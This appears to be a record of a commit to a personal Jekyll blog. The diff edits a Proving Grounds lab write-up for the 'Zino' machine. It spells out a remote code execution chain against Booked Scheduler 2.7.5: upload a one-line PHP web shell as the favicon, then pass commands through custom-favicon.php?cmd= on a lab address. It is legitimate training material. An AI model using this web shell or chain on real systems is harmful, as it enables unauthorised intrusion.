

Before and after one commit to 0xZon/0xZon.github.io, a Jekyll site: the page built from _posts/2022-10-03-ProvingGroundsPractice-Zino.md, in a window 1280 px wide and 900 px high, scrolled down 4825 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed lines change nothing that is shown.

Commit message:
Update 2022-10-03-ProvingGroundsPractice-Zino.md

```diff
--- a/_posts/2022-10-03-ProvingGroundsPractice-Zino.md
+++ b/_posts/2022-10-03-ProvingGroundsPractice-Zino.md
@@ -146,16 +146,16 @@
 
 From here I googled "Booked Scheduler v2.7.5 exploit" and I found a [github repo](https://github.com/F-Masood/Booked-Scheduler-2.7.5---RCE-Without-MSF) that showed how to get remote code execution on this machine.
 
-There were X simple steps to exploit this machine.
-1. Navigate to manage_theme.php page
+There were 3 simple steps to exploit this machine.
+Navigate to manage_theme.php page
 
 ![Zino](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/zino/image4.png)
 
-2. Upload rce.php `<?php system($_GET['cmd']); ?>` as the Favicon
+Upload rce.php `<?php system($_GET['cmd']); ?>` as the Favicon
 
 ![Zino](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/zino/image5.png)
 
-3.  Navigate to http://192.168.172.64:8003/booked/Web/custom-favicon.php?cmd= to run commands!
+Navigate to http://192.168.172.64:8003/booked/Web/custom-favicon.php?cmd= to run commands!
 
 ![Zino](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/zino/image6.png)
 
```
